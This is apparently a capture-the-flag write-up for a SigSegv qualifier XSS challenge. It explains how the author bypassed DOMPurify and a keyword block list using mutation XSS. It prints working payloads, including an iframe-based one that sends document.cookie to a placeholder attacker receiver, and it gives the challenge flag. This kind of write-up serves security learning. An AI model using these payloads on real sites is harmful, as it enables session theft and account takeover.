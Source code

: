 This year SigSegv qualifiers are back 

# XSS challenge: History of Browser Evolution

You are tasked to steal the cookie from a web page. The target machine is running "Chrome with recent updates", so it is advisable to test it in chrome.


You have one URL to test your payloads and the other one to validate your flag. The validation page will pass the link to a bot which will trigger XSS.
```
http://qual-challs.rtfm.re:8080/
http://qual-challs.rtfm.re:8080/check
```
![Image](https://eqqn.github.io/images/hobe.jpg)
### Finding injection point
Since there is no obvious forms or input elements apparent, we look at the page source ( follow comments for my thought proccess ) :

```js
    var nuclearSanitizer = function (dirty) {
        var clean = dirty;
     //## These are directives banned by Developer
        forbiddenWords = ["onerror", "onload", "onunload", "img", "focus"];    
        
        for (const fw of forbiddenWords) {
            if (dirty.toLowerCase().includes(fw)) {
                console.log(fw);
                clean = "";
                break;
            }
        }
        return clean;
    }
    
    var getUrlParam = function (name) {
        var reg = new RegExp("(^|&)" + name + "=([^&]*)(&|$)");
        var r = unescape(window.location.search.substr(1)).match(reg);
        if (r != null) return r[2];
        return null;
    }

    var layout = getUrlParam("layout");      //## This is where the URL parameter is taken
    var clean = DOMPurify.sanitize(layout);
    
    // Hehe I made a custom sanitizer, no worriez
    clean = nuclearSanitizer(clean);

    var injectionPoint = document.getElementById("injection");
    injectionPoint.innerHTML = clean;
    injectionPoint.innerHTML = injectionPoint.innerHTML;
```

The *getUrlParam* function takes url parameter *layout* and puts it inside "injection" element of the webpage. 
Queries such as ` http://qual-challs.rtfm.re:8080/?layout=YOURSTRINGHERE ` will render on the page.

![Image](https://eqqn.github.io/images/hobe2.jpg)

However there is pesky **DOMPurify.sanitize(layout);** getting in our way of triggering the desired alert(1) box.
After giving automated tools a try ( XSStrike and Burpsuite) and trying to concatenate some form of `<script>alert(222)</script> `to render on the page I kept getting owned by the sanitizer. 

Alternatives from XSS cheat sheets [1] ,[2]( that apply to chrome) didn't seem to work. However my friend point me to an interesting resource - DOMPurify bypass.

### Bypassing DOMPurify

There is an excellent write-up describing a recent vulnerability in DOMPurify, that uses browsers auto-fix feature to close the tags of HTML elements that are not properly matching.

More on this behaviour here : https://research.securitum.com/dompurify-bypass-using-mxss/

So the PoC payload referenced in the article looks like this : 

` <svg></p><style><a id="</style><img src=1 onerror=alert(1)>"> `
However it uses both **img** and **onerror** tags stripped by *NuclearSanitizer()*, so we can look once again at the cheat sheets and find other components that could do the trick. 

![Image](https://eqqn.github.io/images/hobe3.jpg)

`?layout=<svg></p><style><a id="</style><iframe src=1 onmouseover=alert(1)>"> `
With this I popped the first alert. DOMPurify is bypassed. Great, now to make it run without interaction and onto exfiltration. In this part you can get creative.

To steal the cookie, you need to make a request and transfer it to a domain you control. A convenient web service for that is "Requestbin", which allows you to make receive requests on their servers.

`?layout=<svg></p><style><a id="</style><iframe src=javascript:document.location='hxxps://REPLACE-WITH-YOUR-RECEIVER/'+ document.cookie>">`

Once we submit the full URL into the validator, a HTTP request is made to our cookie receiver server :

![Image](https://eqqn.github.io/images/hobe4.jpg)

`flag=sigsegv{pur1fy_mY_s0ul}`

This was a fun challenge, and I got to learn XSS the fun way. 


[1] Web Security Academy XSS cheat sheet https://portswigger.net/web-security/cross-site-scripting/cheat-sheet 

[2] Payload ALL the things XSS repo https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection


